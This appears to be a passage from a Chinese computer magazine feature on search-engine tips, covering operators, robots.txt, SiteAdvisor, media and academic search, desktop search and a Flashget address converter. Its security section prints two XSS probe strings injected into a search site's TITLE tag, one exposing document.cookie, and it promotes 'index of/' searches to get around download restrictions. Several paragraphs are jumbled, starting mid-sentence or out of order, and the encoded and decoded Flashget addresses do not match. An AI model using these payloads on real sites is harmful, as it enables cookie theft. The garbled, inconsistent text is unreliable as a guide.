  - 第二种：“+程序 +语言 +Java”。相当于布尔逻辑命令中的“AND”关系，翻译过来就是：程序（AND）语言（AND）Java。因此，搜索结果中只列出同时包含三个关键字的记录。通过使用“+”号，还可以强制搜索引擎将一些停用词当作关键词进行搜索。
  - 第三种：“+程序 +语言 -Java”。如果要求搜索结果中不含特定查询词，就可以使用此命令。翻译过来就是：程序（AND）语言（NOT）Java，表示列出所有包含程序和语言的记录，但是会排除有关Java的记录。

- **（2）使用双引号进行精确匹配**
  搜索引擎会依据查询词的字符串进行拆字处理。为了解决这种情况，通过添加双引号，可以得到更精确的搜索结果。例如，搜索有关“电脑爱好者合订本”的信息，如果不加双引号，搜索结果就会被拆分。但加上双引号后，查询词变为“电脑爱好者合订本”，这会比直接输入关键词得到更少、更好的结果。

- **（3）使用site命令把搜索范围限定在特定站点中**
  通过“site”命令，可以把搜索范围限定在某个具体网站或者网站频道，提高查询效率。例如，输入“姚明 site:sports.sohu.com”，表示搜索搜狐网站内关于姚明的体育新闻。需要注意的是，“site”后的冒号为英文字符，而且冒号后不能有空格，否则“site:”将被作为一个搜索的关键字。此外，网站域名不能有“http”以及“www”前缀，也不能有任何“/”的目录后缀。

- **（4）使用intitle命令搜索网页标题中含有关键词的网页**
  在一个或几个关键词前加“intitle:”，可以限制只搜索网页标题中含有这些关键词的网页。例如，“intitle:电脑”表示搜索标题中含有关键词“电脑”的网页；“intitle:设计电脑”表示搜索标题中含有关键词“设计”和“电脑”的网页。

- **（5）使用“index of/”突破网站资源下载的封锁**
  通过“index of/”命令，可以直接进入网站首页下的文件和文件夹中，绕过HTTP的网页浏览方式，从而轻松突破网络下载的限制。例如，在搜索框上输入：“"index of/" inurl:lib”，可以方便地进入电子图书馆下载喜欢的书籍；在搜索框上输入：“"index of /" cnki”，可以找到图书馆的CNKI、VIP、超星等入口；在搜索框上输入：“"index of/" ppt”，可以下载幻灯片作品；在搜索框上输入：“"index of/" mp3”，可以下载mp3音乐文件。当然，还可以将关键词改为“swf”、“wma”、“avi”等，从而搜索到不同的音乐或视频文件。

- **（6）使用拼音和汉字互相转换**
  在百度和Google等搜索引擎中，可以通过智能软件系统对拼音关键词进行自动中文转换。例如：搜索“dian nao ai hao zhe”，百度或Google会自动提示：“您要找的是不是：电脑爱好者”。点击蓝色的“电脑爱好者”链接，就能够将“电脑爱好者”作为关键词进行搜索了。对于拼音和中文混和的关键词，系统也能有效转换。对于拼音“l ü”、“l ü e”、“n ü”或“n ü e”，用户可输入“lv”、“lve”、“nv”或“nve”。如果拼音中没有空格，例如“diannaohaozhe”，系统也会进行相应处理。此外，通过搜索引擎的容错和改正功能，可以对汉语的多音字和方言进行识别改正，提高搜索的准确度。

当输入较长的关键词时，搜索引擎可能会产生误差，使用上述符号和命令可以帮助我们更精确地找到所需信息。

### 3. 打造安全搜索的新境界

- **（1）保护隐私，手动清除搜索历史记录**
  当用户进行搜索时，搜索引擎会把输入的内容记录在主页搜索框里。当别人使用时，很容易知道用户的搜索记录。要清除此搜索记录，在搜索框中双击鼠标左键，然后指向需要删除的历史记录（注意不要点击该记录）。这时，记录会深色显示，再点击Del键，就会把记录一个个删除。本方法操作比较简单，只需使用一个按键即可，对于保存历史记录不多的情况十分方便。此外，还可以在菜单中依次打开“工具”→“Internet选项”→“内容”→“自动完成”，把“自动完成功能应用于”下所有的钩都去掉，点击“清除表单”，确定后即可。重新打开谷歌，就会发现搜索框里的历史记录已经清除干净了。如图3所示。

- **（2）禁止搜索引擎收录需要保护的网页内容**
  出于个人隐私保护或版权保护的需要，许多用户并不希望网页文件被搜索引擎抓取并收录。要阻止漫游器抓取网站，可以在服务器的根目录中放置robots.txt文本文件。当一个搜索机器人访问一个站点时，它会首先检查该站点根目录下是否存在robots.txt，如果存在，搜索机器人就会按照该文件中的内容来确定访问的范围；如果该文件不存在，那么搜索机器人就沿着链接抓取。这里以Google搜索引擎为例。

  ```
  User-agent: *
  Disallow: /
  ```

  如果希望网页的文字内容被收录，而又不希望图片被收录。比如博客里有一些私人的相片。该怎么办呢？针对这种情况，用户可以按下面这些方法进行：
  - **第一种：禁止Google收录所有图片**
    可在网页的head部分加入noimageindex标记：`<meta name="robots" content="noimageindex">`或`<meta name="googlebot" content="noimageindex">`。需要注意的是，如果网站图片被其它网站使用（包括直接指向本站的图片链接），那么Google在收录其它网站时，仍然有机会将图片收录。
  - **第二种：禁止Google收录某一目录的图片**
    如果网站图片都放在同一个目录里，那么可以禁止Google收录该目录，这样更安全一些。在robots.txt文件里加入下面内容即可：
    ```
    User-agent: *
    Disallow: /images/
    ```
  - **第三种：禁止Google收录某一格式的图片**
    如果只希望某种格式的图片不被收录，可以将第二种方法更改为：
    ```
    User-agent: *
    Disallow: /*.gif
    ```
    这样就相当于告诉Google及其它搜索引擎，不要收录网站里的gif格式图片。

- **（3）使用McAfee SiteAdvisor评估网站安全性**
  McAfee SiteAdvisor（网站安全评估插件）可以在浏览器上安装一个按钮，如图4所示。安装完毕，打开百度网站，在搜索栏中输入关键词如“网络银行”。然后，在搜索结果页面的每个搜索结果标题右侧都会有一个球形标志。
  如果标志显示为绿色，则说明它链接的网站目前是安全的，可以放心浏览；如果标志显示为黄色，表示存在一些轻微的安全或干扰问题；如果标志显示为红色，则说明链接的网站内可能包含广告软件、间谍软件、木马程序等恶意程序的安装下载，或者是有可能会链接到网页木马等其他恶意网站；如果标志显示为黑色，则表示尚未对该网站进行测试。
  在日常浏览网站的过程中，SiteAdvisor会随时弹出一个泡泡提示窗口，详细显示该网页链接上有多少个软件下载安装，每个软件的安全性如何，有多少个网页弹出窗口等。如果用户非常了解这个网站，可以点击SiteAdvisor按钮旁边的下拉菜单，选择其中的“不警告列表”选项，然后在弹出的配置窗口将信任的网站添加到该列表。如果要临时停止SiteAdvisor的检测服务，可以点击SiteAdvisor按钮旁边的下拉菜单，选择其中的“禁用SiteAdvisor”命令。如图5所示。
  在搜索的过程中，存在很大的安全隐患。例如，黑客可以将攻击脚本上传到Web服务器上，使得所有访问该页面的用户都面临信息泄漏的可能；在Web客户端使用Server端脚本生成页面为用户提供数据时，如果未经验证的用户数据被包含在页面中而未经HTML实体编码，客户端代码便能够注入到动态页面中。因此，养成良好的安全搜索习惯，利用工具辅助判断，是保护自己的重要一环。

中。以Sogou网站为例，在搜索的过程中即面临着各方面的威胁，如跨站攻击XSS，这是一种经常出现在Web应用中的计算机安全漏洞，通过利用Web页面编写不完善的问题，它允许恶意Web用户将代码植入到提供给其它用户使用的页面中。这样，在<TITLE>标签的过滤时可能会存在问题。测试代码如下：

```
</TITLE>"><script>alert('XSS测试')</script><"TITLE>
```

采用类似的方法，还可以暴露cookies参数，测试代码如下：

```
</TITLE>"><script>alert(document.cookie)</script><"TITLE>
```

测试结果如图6所示。



为了识别并防范这些潜在的脚本威胁，把握恶意软件潜在攻击的详细情况，需要在把握技术分析的基础上，配合软件进行更加有针对性的保护。下面以“网址之家（http://www.hao123.com）”为例，在浏览器中输入该网站地址，右侧的SiteAdvisor按钮显示该网站存在潜在的浏览风险。点击该按钮，即可进入SiteAdvisor的官方分析站点。在“下载测试”部分，可以看到针对该站点的详细分析，包括BaiduToolBar、hao123homepage、PPStream等。如图7所示。



在分析结果中，列出了详细的“名称”、“浏览器模式”和“干扰计量器”等项目。如果需要了解这些潜在的浏览威胁，点击该名称，如“BaiduToolBar.exe”，网页就会列出该程序的安装路径。在这里，用户可以了解该软件的潜在风险，如可能会对系统注册表、硬盘驱动器、浏览器的按钮和工具栏进行修改等。这样，就可以将恶意网站直接拒绝在浏览之前，从而避免接触到恶意内容。如图8所示。



需要指出的是，软件偏重于网络搜索或浏览之前的防范与探测。实际应用过程中，还需要了解恶意攻击的来龙去脉，通过多种措施降低网络搜索的风险。因此，要充分发挥SiteAdvisor的检测作用，在把握恶意搜索攻击的基础上，对潜在的浏览风险进行分析，才能准确发现和防御各类网络攻击行为，真正做到知己知彼，“防患于未然”。

## 图片及地图搜索专题

### 1. 利用搜索引擎搜索图片

通过“网络机器人”或“网络蜘蛛”，搜索引擎能够自动访问互联网，并沿着任何网页中的所有URL爬到其它网页，把爬过的所有网页或图片收集回来。
以百度图片搜索为例，打开主页http://image.baidu.com，在搜索框中直接输入关键词，然后点击“百度一下”按钮即可。在搜索时，用户可以选择搜索全部图片，这样将最大范围地搜索到需要的图片，如“新闻图片”、“大图”、“中图”、“小图”、“壁纸”等，以便更加精确地查找。
以百度搜索壁纸为例。电脑屏幕区域通常为“800×600”、“1024×768”、“1280×960”、“1600×1200”等尺寸，搜索过程中，用户只需要找到符合屏幕区域大小的图片，即可将其设置为壁纸。输入关键词如“鸟巢”，在搜索结果中，图片下方一行有说明图片尺寸、大小、格式的文字。例如：某图片下方有“800×600 72k jpg”的文字，则表明该图片的相关参数为：“800像素长，600像素宽，大小为72KB，格式为jpg”。使用类似的方法，还可以方便地查找旅游风景照片、人物明星照、名人字画或电影海报。
在Google图片搜索中，搜索结果也有一个直观的缩略图，以及对该缩略图的简单描述，如图片文件名称以及大小等。点击缩略图，页面分成两帧，上帧是图片缩略图以及页面链接；而下帧则是该图片所处的页面。在此图片中，屏幕右上角有一个“移除栏框”按钮，可以用来将框架页面迅速切换到单帧的结果页面，其搜索方法跟网站搜索一致，非常方便。
由于图片搜索比较专业，下面推荐几个优秀的图片搜索网站：

| 名称 | 网址 |
| :--- | :--- |
| 百度图片 | http://image.baidu.com/ |
| 谷歌图片 | http://images.google.com/ |
| 雅虎图片 | http://image.yahoo.com.cn/ |
| 中搜图片 | http://img.zhongsou.com/ |
| 搜狗图片 | http://image.sogou.com/ |
| 爱问图片 | http://p.iask.com/ |
| 网易图片 | http://image.yodao.com/ |
| SoWang图片 | http://www.sowang.com/picsearch.htm |
| 搜搜图片 | http://image.soso.com/ |
| 搜秀图片 | http://www.sooshow.com/ |
| AltaVista | http://www.altavista.com/image/default |
| Lycos | http://search.lycos.com/?tab=multi&cat=images |
| Excite | http://www.excite.com |
| Search.com | http://www.search.com/images |

### 2. 使用专业工具搜索地图

地图搜索是一种比较专业化的信息搜索服务，除了需要搜索技术做后盾，还需要丰富的地理知识。Mapbar网站在这方面具有很大优势，其最大优点来源于地图的浏览速度以及丰富的地图数据量，通过栅格地图浏览方式，使得用户可以快速浏览和移动地图图片，同时可以提供全国430多个城市的地图查询和公交查询服务。使用Mapbar搜索有两种方法：一是通过专业地图网站，地址为：http://main.mapbar.com；另一种方式是通过软件配合实现更加准确的搜索。Mapbar网站提供的地图搜索工具“小ME”是一款免费的绿色软件，其设计初衷是为大众提供电子地图搜索服务，例如地点搜索、公交换乘方案查询、驾车路线指引服务等。

软件下载地址：http://me.mapbar.com/download.html

打开软件后，只要能上网，大部分的用户都可以找到自己所在的地方。需要搜索具体的地点或周边时，选择菜单项上的“地图查询”，输入查询关键字即可出现大概方位。例如，输入《电脑爱好者》杂志社的地址：“曙光国际大厦”，结果显示在右侧的查询结果中并同步在地图上显示。或者直接在地图上单击“地图查询”，输入关键字“曙光国际大厦”也可查询所在位置。

就像物理学中确定物体的位置需要参照物一样，在“小ME”电子地图中，以区域或者点为单位，可以搜索区域内或者当前位置周边的相关数据，并可以随意控制范围大小和信息类型。例如，以“曙光国际大厦”为中心查找周边。首先，找准需要查找的大概位置，

放大地图，然后单击右键，选择“查询周边”，可以输入关键字查询，结果会自动标注在地图上，这样就有了参照位置。同时，查询的文字结果也会显示在软件右侧的窗口上。

以公交换乘为例，如果现在要从“曙光国际大厦”到“天安门”，软件就会提供多种选择方案。首先，在右侧的“公交换乘”区域的“起点”和“终点”文本框中，分别输入关键词“曙光国际大厦”和“天安门”。然后，点击“搜索”按钮，因为站点具有不确定性，所以需要确定起点站和终点站。选择完毕，再次单击“搜索按钮”，即可看到6条详细的换乘方案。每条结果都对详细的乘车路线进行了说明，描述简洁而清晰，如“从彰化村出发，乘坐33路（公主坟-黄庄），在公主坟换乘地铁一号线（苹果园-四惠东），抵达天安门东”。同时，在地图上用一根大红的粗线标注了行车路线。

如果有自己的爱车，也可以亲自

驱车前往，当然，出门之前也要首先把路线图弄清楚了。查询方法与公交换乘十分类似，而且更加详细，关于某个路口的拐角也描述得清清楚楚。为了方便用户保存查询信息，软件还提供了邮件发送地图快照、手机发送路线结果等方式。如果觉得有必要，还可以将当前窗口的地图以及查询结果打印出来。点击“工具箱”菜单下的“打印地图”选项，即可开始打印。此外，还提供了发送地图到MSN/QQ好友、在地图上标注地点等服务，考虑十分周到。

当然，如果不满足于一个搜索提供的信息，搜游记（http://www.soyoji.com）、“去哪儿”（http://www.qunar.com）、全球旅游搜索（http://www.world163.com）这几个搜索网站也可作为参考。“去哪儿”和搜游记主要为关心价格的驴友们提供信息，而全球旅游搜索除了能在引擎首页直接进行价格的查询，还可对旅游相关的新闻或博客进行搜索。

## 多媒体搜索

音乐和视频应该是比较常见的两个搜索项目了，除了通过百度MP3等大型搜索引擎，还有不少优秀的搜索工具。简单介绍如下。

样的功能。以百度MP3为例，如果我们想找电影《阿Q正传》，只要在搜索引擎里面输入“阿Q正传”，然后将下面的单选项选择为“其它”或“RM”（实际上这样选择就能将大部分的音乐文件都排除掉了），从搜索结果可以看到其中有一些体积较大的文件，很显然它们不是MP3音乐，而是我们梦寐以求的电影大片了。

优秀的搜索功能，需要查找某歌曲时，输入歌曲名如奥运歌曲“我和你”，就可以得到满意的结果。在听到某歌曲时，如果想看看该歌手的其他歌曲，可以点击酷狗界面上的歌手头像，会弹出一个页面，显示该歌手的全部歌曲；也可以右键点击正在播放的歌曲，在弹出的菜单最下面选择“搜索XXX”，就会搜索出该歌手的全部歌曲了。如图9所示。

### 1. 音乐搜索实用技巧

- 使用专业网站搜索经典音乐

通常情况下，对于多位歌手唱的同一首歌，若要找到某位歌手的作品，可用搜索关键词“歌曲名 + 歌手名”来提高搜索精度。例如“我和你 刘欢”（歌曲名与歌手名之间有一个空格），就能准确搜索到刘欢演唱的《我和你》。另外，一些专辑名称并不是歌曲名，这就要借助一搜的“歌曲专辑搜索”功能了。打开一搜搜索界面（http://mp3.yisou.com），在搜索文本框中输入单曲名（或专辑名），例如“奥运歌曲”，单击“歌曲搜索”按钮，在搜索结果页面中有一个“所属专辑”栏目，点击该链接就是该专辑中所有的歌曲。

- 用MP3搜索下载电影

提到MP3搜索，大家通常以为它只能搜索音乐文件。其实，我们还可以通过它搜索到想要的精彩大片！百度MP3（http://mp3.baidu.com）和雅虎MP3（http://music.yahoo.com.cn）都具有这

- 使用酷狗2008搜索音乐

软件下载地址：http://www.kugoo.com

酷狗2008是一款优秀的音乐下载和播放软件，它拥有庞大用户群贡献的海量歌曲库和高速的下载速度，分布式音乐搜索是软件最出色的亮点所在，歌曲下载速度非常流畅。通过酷狗，用户可以方便、快捷、安全地从全球用户中快速检索所需要的资料，还可以与朋友相互传输影片、游戏、音乐、软件、图片。新版酷狗2008的界面很清爽，主要突出了音乐播放功能，同时与歌曲管理相关的功能标签主要集中在右侧窗口上面部分。酷狗2008具有换肤和换色的功能，使用不同酷狗皮肤和换色可以变换出无穷的组合。


在左侧播放按钮下面，集成了酷狗

找到心仪的歌曲后，双击想要的文件就可以开始下载。或者选定该文件，单击右键，点“下载”按钮，也可以开始下载。在右键菜单里，还可以选择“在线试听”，试听时，播放器中会出现颜色交替变化的歌词，非常体贴周到。

在网络资源紧张的情况下，通过一些简单设置可以保证试听歌曲时的畅通。点击界面左下方的“选项”菜单，打开“网络设置”选项，选择“关闭网络功能”，可以把酷狗的搜索和下载功能全部停止。这样，可以很大程度节省带宽。对于喜欢玩游戏的用户来说，可以勾上“后台播放时节省带宽”。如图10所示。



对于所有登录用户，都可通过酷狗2008的上传/下载功能，把自己喜欢听的播放列表上传下载到任何地方。点击“同步列表”，选择“上传播放列表”或者“下载播放列表”即可。

更值得一提的是，酷狗2008具有卡拉OK歌词精确显示功能，能够实现歌词的百分百精确显示（动感歌词技术能够实现歌词逐字定位，能够精确显示歌手所演唱的歌词内容）。通过动感歌词含有独特的指纹技术，用户可自由编辑“动感歌词”，能够自动识别制作时所播放的音乐文件。总的来看，酷狗2008具有大量的人性化设置，操作起来十分简单，是一个音乐搜索的好帮手。

作为一款音乐播放器，酷狗2008具备兼容所有音频格式、EQ功能、卡拉OK歌词显示功能、操作界面友好等特性，从相关的体验参数看出，酷狗2008不仅是一款优秀的音乐搜索和下载软件，而且也是一款不可多得的音乐播放软件。

### 2. 视频搜索实用技巧

通常情况下，许多搜索引擎都提供了专门的视频搜索界面，如百度视频搜索http://video.baidu.com，Google视频搜索http://video.google.cn。

- 搜索并下载在线播放的视频资源

通过搜索引擎，用户很容易搜索网络视频文件，不过，问题的难点在于如何有效下载这些视频文件。最简单而有效的方法是：

- 方法一：直接复制视频下载地址

直接在搜索的视频上点击右键，在弹出的菜单中选择“属性”，即可看到属性对话框。如图11所示。



在文件信息的“位置”区域，复制该视频文件的地址，如http://61.152.221.81/upfile9648/20070903_120119_457_427.wmv，然后将这个地址拷贝到FlashGet等软件中下载即可。

- 方法二：通过临时文件夹搜索视频

首先需要完整播放一次视频。然后，单击IE浏览器“工具”菜单下的“Internet选项”，在“Internet临时文件”区域，打开“设置”按钮，即可进入设置界面。同时，单击此界面中的“查看文件”按钮。如图12所示。



最后，在打开的“C:\Documents and Settings\Administrator\Local Settings\Temporary Internet Files”临时文件夹中，对所有文件按类型分类，找到文件类型中的Flash视频文件，即可找到刚才播放的视频文件，打开并下载保存即可。

在视频搜索方面，“波波虎”提供了视频和合辑两种搜索方式，在搜索框中输入想要查找的视频关键词，例如“夜幕下的哈尔滨”，然后选择“视频”或者“合辑”，“波波虎”会将互联网上关于“夜幕下的哈尔滨”的相关视频全部罗列出来。查看这些视频时，可以选择按照文字或按照图片来显示。如图13所示。


在“波波虎”的视频搜索结果中，相同关键词的视频是按照播放速度快慢来排列的。在“视频搜索”区域，用户可以通过“影片速度”中的指示条清晰地看出。在“影片播放”栏有三个小图标，从左向右依次是“加入播放列表”、“播放”和“画中画预览”，点击第一个按钮，即可将该视频加入到下载列表中。

波波虎保存视频文件功能新增了很多格式，除了能保存为flv、MP4等格式文件以外，还可以保存为适合手机播放的3GP等23种格式。点击“保存”按钮，会弹出一个“保存视频文件”的对话框，点击保存格式下拉菜单，可以选择想要保存的视频文件格式。将视频文件保存为手机支持的播放格式后，就可以上传到手机上，用手机观看了。此外，“波波虎”还可以使用“网站大全”直接观看各大视频网站中的视频，使用网页视频捕捉器自动识别并捕捉网页中的视频。

# 网络加油站 SOLUTIONS

此外，搜索视频时，还可以配合以下专业视频搜索软件，如威播网提供的VVbox2008 ( http://www.vvbox.com/ )、秋毫视频搜索引擎 ( http://www.qiuhao.net )、Tvix草根视频分享平台 ( http://search.tvix.cn/ )，获得更加丰富的视频资料。总之，视频必将是搜索引擎的一种主要的信息输出方式，不断发展的宽带网络大环境将造就专业视频搜索的繁荣和壮大。

## ★ 专业文档搜索专题

目前的搜索引擎已经不再局限于仅仅搜索网站页面，而是朝着“精、深、准”的专业方向发展。例如，百度推出了新闻、MP3、图片、文档、黄页等，Google也推出了新闻、图片、论坛、大学、学术论文、图书等搜索引擎技术。只要切换到相应的页面，输入想要搜索的关键字，就可以在数以万计的网站中找到自己需要的资料。在普通文档搜索方面，用户可以直接登录文件搜索站点查找电子文件，如http://file.baidu.com。也可以通过专用的文件搜索命令“filetype:”，这是一个非常强大的实用搜索语法，它不仅能搜索一般的文字页面，还能对某些二进制文档进行检索。除此以外，还有许多专业的文档搜索方法。

### 1. 专业期刊文件资源搜索

现在，网络上的专业数据库搜索也越来越方便。比较典型的期刊资源有：中国知网，维普资讯网、万方数据、龙源期刊网等。这些站点汇集了丰富的期刊资源，并提供了强大的搜索功能。

**(1) 中国知网 ( http://www.cnki.net )**

中国知网的文献类型包括：学术期刊、博士学位论文、优秀硕士学位论文、重要会议论文、年鉴、专著、报纸、专利、标准、科技成果、工具书、知识元、古籍等，还可与外文资源统一搜索。在检索设置方面，它按《中国图书馆分类法》，分类汇编成为10个专辑、168个专题、3000多个学科专业数字图书馆，并利用引文、作者、知识元等链接，将文献整合为知识网络，面向各专业用户提供高质量的文献、情报、知识的检索和系统调研需求。

进入单库检索首页后，点击各数据库名即可进入各数据库的检索页。以中国期刊全文数据库为例，点击“跨库检索首页”按钮进入跨库检索首页即可进行跨库检索。在检索过程中，可以选择篇名、关键词、摘要、作者、第一作者、单位、刊名、参考文献、全文、年份、期数、基金来源、中图分类号、ISSN、统一刊号等进行检索。如图14所示。



在搜索过程中，如果使用某个查询词进行搜索无法找到准确的结果，可以使用以下方法：限定文献来源搜索、在原有结果上进一步搜索、在查询词适当的位置加个空格等，这样可以找到更精确的结果。例如：查询吴文俊在数学的实践与认识关于数学机械化的文章，输入“吴文俊 数学机械化 数学的实践与认识”将会搜索到更加满意的结果。此外，用户还可以直接登录CNKI知识搜索网站：http://search.cnki.net/，在该网站进行文献检索。

**(2) 维普资讯网 ( http://www.cqvip.com/ )**

用户还可以直接登录专题检索网站：http://oldweb.cqvip.com。维普资讯有限公司是科学技术部西南信息中心下属的一家大型的专业化数据公司。该网站收录有中文期刊8000种、中文报纸1000种、外文期刊4000种。其中，《中文科技期刊篇名数据库》积累全文文献728万多篇，分七大专辑：自然科学专辑、农业科学专辑、医药卫生专辑、教育科学专辑、经济管理专辑、图书情报专辑、工程技术专辑。

用户在首页注册登录后，直接在搜索栏中输入检索词并点击搜索的过程称为简单搜索。如下图所示，用户直接在文本框中输入需要检索的内容，如“奥运会”，单击“搜索”按钮，即可进入结果页面，显示检索到的文章列表。进入简单搜索页后，用户可以进行范围、年限、显示方式的选定。用户还可以选择重新检索、在结果中检索、在结果中添加、在结果中去除等二次检索项，从而更加准确地锁定用户所需要的数据。如图15所示。



在高级检索区域，提供了两种方式供读者选择使用：向导式检索和直接输入检索式检索。向导式检索为读者提供分栏式检索词输入方法。除了可选择逻辑运算、检索项、匹配度外，还可以进行相应字段扩展信息的限定，最大程度地提高了“检准率”。在直接输入检索式检索方式中，读者可在检索框中直接输入逻辑运算符、字段标识等，点击“扩展检索条件”并对相关检索条件进行限制后点“检索”按钮即可。

除了上述网站，用户还可以登录万方数据 ( http://www.wanfangdata.com.cn/ )、龙源期刊网 ( http://www.qikan.com.cn/ )、天网 ( http://bingle.pku.edu.cn ) 等网站进行检索。

### 2. 词典搜索

**“爱词霸” ( http://www.iciba.com/ ) 是金山公司推出的专业词典搜索工具，主要专注于以词霸网络百科全书为主的专业搜索领域。在软件查询时，集成了网络搜索的功能。如果对软件搜索的结果感觉不太满意，可以结合“网络查询”功能，得到更加详细的解释、知识或者解答。网页界面非常清爽、简洁，简单的输入框加上搜索功能按钮，让普通用户操作起来极为方便。它采用了先进的中文信息识别技术，将180部词典的几十万例句通过智能处理，形成庞大的多维检索知识库。用户输入查询短句后，经过系统自动分词，即可提取出语法模式，随即会在知识库中找到最匹配的例句提供给用户。如图16所示。**

**“爱词霸在线词典”还具有独特的“多语言支持”功能，无论输入中文、英文、日文、法文、德文的单字或者词组，都可以进行检索。爱词霸搜索中包含3万常用英文单词的真人发音，在搜索结果中点击小喇叭图标即可在线听到纯正的美语发音，还有1300多个洋话连篇在线视频，由专业外教讲解单词的释义和例句，对提高听力和口语都非常有帮助。同时，用户也可反馈词典中的错误，这样的互动会使爱词霸搜索的结果越来越丰富，越来越精准。除了词典功能，“爱词霸”还提供了翻译、短句、百科词典、学习资料、MP3等功能。

## 3. 书籍类和知识类专业搜索

推荐地址：http://book.httpcn.com/search或http://soshu.myrice.com

书海茫茫，如何找到自己喜欢的书籍呢？借助专业搜书引擎可以解决这个问题。目前，国内较为优秀的搜书引擎有：电子图书搜索（http://book.httpcn.com/search/）、多来搜书（http://soshu.myrice.com/）等。下面，以电子图书搜索引擎为例，它甚至提供了数万本电子图书供免费下载。打开“电子图书搜索”，可以看到图书分为综合类、科教类、小说类三大类。为了更好地把握具体图书分类，网站还列出了“E书分类导航”，对每个大类对应的详细子分类也进行了罗列。搜索方式包括“书名”和“作者”二种，用户可以任意选择。当然，这里只是列出了部分电子书，如果希望了解其他图书的出版情况，还可以在“多来搜书”中得到更加详细的结果。

## 4. 巧用工具实现本地文件搜索

在数据储存量越来越大的今天，本地搜索工具带给我们的的好处是：任何人都可以在极短的时间里，从自己的电脑数据中找到所需要的东西，甚至还可以对本地邮件系统、即时通讯等组件中的内容进行检索。本地搜索的特点是：通过预先建立索引表，并加载桌面搜索工具后，用户就可以使用浏览器来搜索本地计算机中的内容了。下面以Google Desktop Search为例进行介绍。

软件下载地址：http://desktop.google.com

Google Desktop Search不但可以闪电般的速度找出硬盘上的文件，而且能够搜索Outlook和Outlook Express中的电子邮件、TXT文件、HTML页面、Excel和PowerPoint文件、AOL和AIM的聊天记录，以及正在Internet Explorer中浏览的页面。

- 第1步：建立索引
软件安装后，双击软件图标，即可看到桌面搜索界面。在下方，可以看到几排黄色的字体：“一次性索引编制进行中”。这说明，当软件刚安装完成时，必须建立文件索引才能发挥出桌面搜索软件惊人的搜索速度。打开任务管理器，我们可以发现几个以“Google”开头的进程，为了提高搜索效率，该进程会随搜索程序启动，在索引建立过程中占据大量的CPU使用率。

- 第2步：设置搜索范围
网页中一切可让搜索引擎抓取的文本中都尽量带有关键词。Google Desktop Search的搜索范围是可以选择的。在属性设置页中，提供了多种类型供用户勾选，包括：电子邮件、聊天记录、历史记录、媒体文件、Office系列文件、PDF、联系人、日历、任务、便笺、日记、Zip文件等。Google桌面搜索并未提供设置密码的功能，不过可以切换到使用偏好页，重新设置不希望检测的文件路径或网站。

- 第3步：进行本地文件搜索
由于搜索速度非常快，可以把它当作一个简易的文档搜索器来使用。而且，Google Desktop Search还可以智能地避开可能与搜索无关的文件，如dll、exe、bin、mib等格式。以Word文档搜索为例。如果选择“word”，那么搜索时，匹配关键字将不仅仅局限于word文档标题，还将深入到文档的内容中。

> 小提示
软件不支持Windows式的通配符搜索，比如查找硬盘上所有的word文档时，应输入命令“filetype:doc”，而不是“*.doc”。这个功能可以帮助恢复误删的文档。当一个文档被删除不久时，使用Google Desktop Search仍然可以将它查找出。

总的来说，Google Desktop Search的搜索功能强大，搜索速度也很快。除了Google Desktop Search，还可以使用百度硬盘搜索进行本地文件搜索。软件下载地址：http://disk.baidu.com。这是一款搜索硬盘资料的软件，最明显的特点是全面支持中文分词，能够快速、准确地帮助用户从个人电脑中查找到想要的信息，尤其是中文信息，相对其他国外软件具有很大的优势。另外一个特点是，该软件提供密码保护，可以妥善维护用户隐私。此外，在本地搜索方面，还有不少优秀的软件，如Yahoo! Desktop Search、微软桌面搜索工具、中搜网络猪等。可见，随着搜索技术的发展，搜索的范围已经不仅仅局限于网络，随着功能强大的工具不断涌现，用户也可以享受到更加专业的本地搜索服务。

科领域。在搜索方法上，软件提供了分卷检索、全文检索、条目顺序、组合检索等检索方法，点击图标可进入相应的页面。此外，软件还提供了几十种逻辑检索的语句检索方式。在条目正文中提供了打印、下载、复制的功能，使用户操作更加方便。网络版地址为：http://www.ecph.com.cn。此外，新浪推出了“新浪爱问”（http://iask.sina.com.cn/），百度推出了“百度知道”（http://zhidao.baidu.com/），雅虎推出了“雅虎知识堂”（http://ks.cn.yahoo.com/），这些都是积分制的互动问答平台，用户可以在这里提出问题和找到答案。

# 网络加油站 SOLUTIONS

虽然在网上搜索资源比较方便，但有时想要找到一些稀缺资源的下载地址却也要花费我们不少的时间和精力。然而即使找到也并不就是万事大吉，笔者就曾遇到这种情况：千辛万苦找到了下载地址，却发现下载链接只给出了快车专用的下载地址，这就意味着如果想要顺利下载该资源，就要先安装快车下载软件，对于经常使用迅雷下载的我来说，这显然是一种资源和时间的浪费。如果我们在网吧遇到这种情况往往会更可惜，因为很多网吧是不允许安装软件的，难道我们只能看着辛苦找来的资源白白错过吗？

# 变通一下 找出专属下载地址的“烦恼”

◆文/TMG Ik

事实上，我们完全可以将这些所谓的“专属下载地址”转换成普通的“http://”格式的下载地址。只要获取了普通格式的下载地址，我们就可以以自己方便的方式随意下载软件了。下面就为大家介绍一下使用“七步下载地址转换器”进行下载地址转换的操作方法。

# 一、软件下载与安装

“七步下载地址转换器”软件下载地址为http://www.anqn.com/creak/soft/2008-03-12/a0993655.shtml。下载后解压，该软件无须安装，双击打开DownURLConversion.exe文件即可打开软件主界面。

# 二、地址转换操作

各专用下载地址与普通地址的转换操作步骤基本相同，下面我们以快车专用下载地址的转换作为示例。

# 1. 专用地址解密操作

地址解密，即将专用下载地址转换为普通下载地址，用“七步下载地址转换器”实现这一步骤的操作十分简单。以快车专用下载地址Flashget://W0ZMQVNlROVUXWh0dHA6Ly93d3cub25saW5lZG93bi5uZXQvc29mdC8wNTY0OC5odG1bRkxBU0hHRVRd&bys为例，我们需要把它转换为普通地址时只需如下操作。

首先，将上述地址拷贝粘贴到“粘贴入”文本框，然后单击“快车解密”按钮，“复制出”文本框会自动弹出转换后的地址http://www.onlinedown.net/viewthread.php?tid=361&extra=page%3D1。通过选中复制或者单击“复制出”按钮就可以将转换后的地址复制到剪贴板使用。

# 2. 普通地址加密操作

地址加密，即将普通下载地址转换为专用下载地址，可谓解密操作的“逆操作”。在论坛上传资料等情况下，或许地址加密操作能助你一臂之力。

首先单击“七步下载地址转换器”软件窗口上的“清空”按钮，清除已有操作记录，以便于实现新的操作。将欲加密的地址，如http://www.onlinedown.net/soft/45648.htm粘贴到“粘贴入”文本框，然后单击“快车加密”按钮，“复制出”文本框会自动弹出转换后的地址Flashget://W0ZMQVNlROVUXWh0dHA6Ly93d3d3cub25saW5lZG93bi5uZXQvc29mdC8wNTY0OC5odG1bRkxBU0hHRVRd&bys。通过选中复制或者单击“复制出”按钮就可以将加密后的地址复制到剪贴板使用。

